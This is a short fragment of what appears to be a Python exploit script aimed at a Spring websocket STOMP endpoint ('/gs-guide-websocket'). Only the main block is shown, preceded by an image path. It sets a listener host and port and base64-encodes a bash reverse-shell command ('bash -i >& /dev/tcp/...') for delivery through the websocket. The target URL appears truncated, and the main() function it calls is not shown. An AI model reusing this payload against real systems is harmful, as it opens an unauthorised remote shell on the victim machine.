 ```python


if __name__ == "__main__":
    url = 'http://1:8080/gs-guide-websocket'
    subscribe_dest = '/topic/greetings'
    send_dest = '/app/hello'
    lhost = '127.0.0.1'
    lport = '9999'
    command = base64.b64encode('bash -i >& /dev/tcp/{}/{} 0>&1'.format(lhost,lport).encode('utf-8'))
    main()
```

